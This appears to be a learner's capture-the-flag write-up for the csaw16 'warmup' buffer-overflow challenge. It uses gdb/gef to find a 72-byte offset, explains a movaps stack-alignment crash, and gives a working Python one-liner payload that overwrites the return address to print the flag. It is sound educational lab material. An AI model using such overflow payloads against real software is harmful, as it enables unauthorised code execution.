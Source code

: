 ```sh
gef➤  i f
Stack level 0, frame at 0x7fffffffdd80:
 rip = 0x4006a3 in main; saved rip = 0x7ffff7c29d90
 Arglist at 0x7fffffffdd70, args: 
 Locals at 0x7fffffffdd70, Previous frame's sp is 0x7fffffffdd80
 Saved registers:
  rbp at 0x7fffffffdd70, rip at 0x7fffffffdd78
```

- You take rip at: `0x7fffffffdd78` and subtract it with`0x7fffffffdd30` and you get `0x48` (which is 72).
- So I was right before when I sent 72 bytes as a padding before overwriting the return address. 
- So my exploit was fine, but it was crashing on `system` function call, because my Ubuntu is running newer libc version.
- To cite the actual writeup:

> When we run it. This might crash on the system("cat flag.txt") if you are running it on a more modern version of libc. This is because the challenge was made to run in a different environment/libc version, and exploitation techniques that work one way in one environment work differently in others.

- Let's explore this further:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/warmup$ cat input.txt | ./warmup
-Warm Up-
WOW:0x40060d
>Segmentation fault (core dumped)
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/warmup$ sudo dmesg | tail
[  789.120183] traps: warmup[3651] general protection fault ip:761e2fc50973 sp:7ffddec2b908 error:0 in libc.so.6[761e2fc28000+195000]
```

- Well our program crashes due to something called __stack alignment.__
- Stack makes some assumptions and when these assumptions are not true it crashes the program.
- This is the last instruction that it tries to execute before crashing:

```asm
 → 0x7ffff7c50973 <do_system+0073> movaps XMMWORD PTR [rsp], xmm1
```

- It says in the docs that the destination address must be a divisor of 16 or you get stack alignment problems.
- ~~TO-DO: Get the flag printed out correctly~~

## Solution

- Instead of trying to change return address to point to the first instruction of `easy` function, let's try make it point to the third instruction in `easy`.

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/warmup$ python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*72 + b"\x11\x06\x40\x00\x00\x00\x00\x00")'  | ./warmup
-Warm Up-
WOW:0x40060d
>flag{g0ttem_b0yz}
-Warm Up-
WOW:Segmentation fault (core dumped)
```

- This is one of the solutions for `movaps` problem.


---

#### Sources

1. https://github.com/hoppersroppers/nightmare/tree/master/modules/04-Overflows/05-bof_callfunction/csaw16_warmup
